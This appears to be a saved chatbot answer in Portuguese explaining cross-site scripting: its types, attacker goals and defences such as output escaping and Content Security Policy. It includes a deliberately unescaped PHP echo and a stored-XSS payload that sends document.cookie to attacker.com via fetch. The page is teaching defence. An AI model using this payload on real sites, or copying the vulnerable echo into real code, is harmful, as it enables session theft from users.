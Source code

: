 # XSS

## by chatgpt

###

### q2

> Fale mais sobre XSS

Claro, Rafael! Vamos explorar o **XSS (Cross-Site Scripting)** de forma prática, direta e detalhada:

---

## 💡 O que é XSS?

**XSS** é uma vulnerabilidade que permite a um atacante **injetar scripts maliciosos em páginas vistas por outros usuários**.  
Esse código é executado **no navegador da vítima**, com os **mesmos privilégios da sessão legítima**.

---

## 🎯 Objetivo do atacante

- Roubar cookies de sessão.
- Redirecionar para sites maliciosos.
- Capturar dados digitados (ex: senhas).
- Instalar malware via navegador.
- Manipular a página visualmente.

---

## 🧨 Tipos de XSS

| Tipo              | Como funciona                                            | Exemplo                                                       |
|-------------------|----------------------------------------------------------|----------------------------------------------------------------|
| **Refletido**     | O script vem direto da URL e é refletido na resposta     | `https://site.com/search?q=<script>alert(1)</script>`         |
| **Armazenado**    | O script fica salvo no banco e é exibido a outras vítimas| Comentários, fóruns, perfis com `<script>`                    |
| **DOM-based**     | O script manipula o DOM via JS sem interação com o servidor | `document.location`, `innerHTML` usado sem cuidado             |

---

## ⚠️ Exemplo real de XSS Armazenado (em PHP puro)

### PHP com falha:

```php
// exibir_comentario.php
echo $_POST['comentario'];
```

### Usuário malicioso envia:

```html
<script>fetch('https://attacker.com/log?cookie=' + document.cookie)</script>
```

O navegador da vítima executa o script e envia seu cookie de sessão ao invasor.

---

## 🔒 Como se proteger de XSS

### 1. **Escape de saída (output)**

Sempre que mostrar dados do usuário:

#### PHP:

```php
echo htmlspecialchars($comentario, ENT_QUOTES, 'UTF-8');
```

#### Laravel (Blade):

```blade
{{ $comentario }}  {{-- já escapa por padrão --}}
{!! $comentario !!} {{-- PERIGOSO: usa apenas se confiar 100% no conteúdo --}}
```

---

### 2. **Content Security Policy (CSP)**

Bloqueia execução de scripts não autorizados.

```http
Content-Security-Policy: default-src 'self';
```

---

### 3. **Filtros de input (não são suficientes sozinhos)**

Ex: bloquear `<script>`, `onerror`, `javascript:`

---

### 4. **Use frameworks que escapam por padrão**

Laravel, Django, Rails... escapam automaticamente no template.

---

## ✅ Conclusão

O XSS é **um dos ataques mais comuns e perigosos**, porque ataca **o usuário**, não o servidor diretamente.  
Ele serve como **porta de entrada** para sequestro de sessão, phishing, keylogging e mais.

---

Se quiser, posso montar um pequeno ambiente PHP vulnerável para você testar XSS localmente com ataques simples — deseja esse exemplo?
